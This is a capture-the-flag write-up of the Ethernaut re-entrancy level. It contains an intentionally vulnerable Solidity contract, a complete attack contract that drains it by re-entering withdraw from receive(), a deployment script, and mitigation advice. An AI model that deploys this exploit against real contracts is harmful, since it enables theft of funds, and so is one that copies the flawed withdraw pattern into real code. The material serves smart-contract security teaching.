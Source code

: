 # Level 10 - Re-entrancy ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/10" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to steal all the funds from the contract.

&#x20; Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling
* Sometimes the best way to attack a contract is with another contract.
* See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Reentrance.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
{% endcode %}

### Exploit

The exploit is a standard reentrancy attack made possible because the funds are sent before the state variable is updated. The receiving contract can then call the withdraw function again, leading to more funds being withdrawn than should have been available.

1. Call the `withdraw()` function from the `receive()` function.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-10

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-10

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level10.sol" %}

{% code title="src/Level10.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

/**
 * Explainer from: https://solidity-by-example.org/fallback
 * ETH is sent to contract
 *      is msg.data empty?
 *           /    \
 *         yes    no
 *         /       \
 *    receive()?  fallback()
 *      /     \
 *    yes     no
 *    /        \
 * receive()  fallback()
 */

// ================================================================
// │                       LEVEL 10 - REENTRANCY                  │
// ================================================================
contract Reentrancy {
    IReentrance targetContract;
    uint256 attackValue;

    constructor(address _targetContractAddress) payable {
        targetContract = IReentrance(_targetContractAddress);
        attackValue = address(targetContract).balance;
        if (attackValue == 0) revert("Target contract has no funds to exploit");
        if (attackValue > address(this).balance) revert("Target contract has more funds than the exploit contract");
    }

    function attack() public {
        // Attack contract
        targetContract.donate{value: attackValue}(address(this));
        targetContract.withdraw(attackValue);

        (bool refundSuccess,) = address(msg.sender).call{value: address(this).balance}("");
        if (!refundSuccess) revert("Refund call failed");
    }

    receive() external payable {
        uint256 targetBalance = address(targetContract).balance;
        if (targetBalance >= attackValue) {
            targetContract.withdraw(attackValue);
        }
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level10.s.sol" %}

{% code title="script/Level10.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Reentrancy} from "../src/Level10.sol";

// ================================================================
// │                       LEVEL 10 - REENTRANCY                  │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Reentrancy reentrancy = new Reentrancy{value: 1 ether}(targetContractAddress);
        reentrancy.attack();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

&#x20;

**The DAO Hack**

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
{% endhint %}

### Notes

* No function, including the `receive()` function, can be invoked from logic in the constructor.

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_10_Re-entrancy.md" %}
